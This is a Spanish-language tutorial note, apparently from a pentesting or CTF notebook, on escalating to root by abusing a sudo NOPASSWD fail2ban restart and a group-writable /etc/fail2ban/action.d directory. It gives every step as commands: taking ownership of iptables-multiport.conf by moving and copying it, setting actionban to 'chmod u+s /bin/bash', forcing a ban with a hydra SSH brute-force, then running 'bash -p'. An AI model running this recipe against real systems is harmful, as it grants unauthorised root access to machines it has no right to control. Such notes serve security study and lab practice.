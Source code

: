 # File2ban Privilege Escalation

URL = https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49

o

URL = https://hackmd.io/@tahaafarooq/privilege-escalation-fail2ban

Se puede hacer de las 2 manera como proporcione en las 2 `URL's` por lo que se podria hacer lo siguiente...

```shell
id
```

Si con esto vemos que estamos en el grupo llamado `Security` y al hacer `sudo -l` podemos ejecutar como `root` el siguiente comando...

```
(root) NOPASSWD: /etc/init.d/fail2ban restart
```

Lo que podremos es reiniciar el servicio de `fail2ban` que su funcion es que cuando detecta que se esta utilizando multiples intentos de `login` o fuerza bruta te banean y en la linea de la configuracion del programa cuando pasa eso hay un comando en concreto estipulado para cuando pasa eso que es el cual cambiaremos para aprovecharlo...

```shell
find /etc -writable -ls 2>/dev/null
```

Haciendo eso veremos que podemos escribir y editar cosas dentro del siguiente directorio...

```
drwxrwx---   2 root    security    /etc/fail2ban/action.d
```

Dentro de este directorio se encuentra un archivo llamado `iptables-multiport.conf` que es el que controla cuando se banea a una persona que comando se ejecuta, por lo que lo editaremos de la siguiente manera...

```shell
mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.bak
```

```shell
cp /etc/fail2ban/action.d/iptables-multiport.bak /etc/fail2ban/action.d/iptables-multiport.conf
```

Y con esto podremos editarlo ya que anteriormente esta con permisos de `root` y no nos dejaba editarlo hacemos este `Bypass` moviendolo con otra extension, por lo que ya estara en nuestro grupo y podremos editarlo, despues lo copiamos para que se quede como estaba asi pudiendo editarlo y que lo detecte el programa cuando se ejecute...

```shell
nano /etc/fail2ban/action.d/iptables-multiport.conf

#Dentro del nano donde pone 'actionban = ' y el contendio del comando, lo cambiaremos por una inyeccion de coidigo malicioso que nos permita ser root
actionban = chmod u+s /bin/bash

^X
<Y or S>
<ENTER>
```

Con esto los cambios se habrian guardado y con esto hacemos que cuando nos baneen se ejecute ese `chmod`, por lo que haremos lo siguiente...

```shell
hydra -l <USERNAME> -P <WORDLIST> ssh://<IP>/ -t 64
```

Echo esto nos banearan y ya tendremos el comando ejecutado volviendo a la maquina victima...

Por lo que haremos...

```shell
bash -p
```

Y ya seriamos `root`...
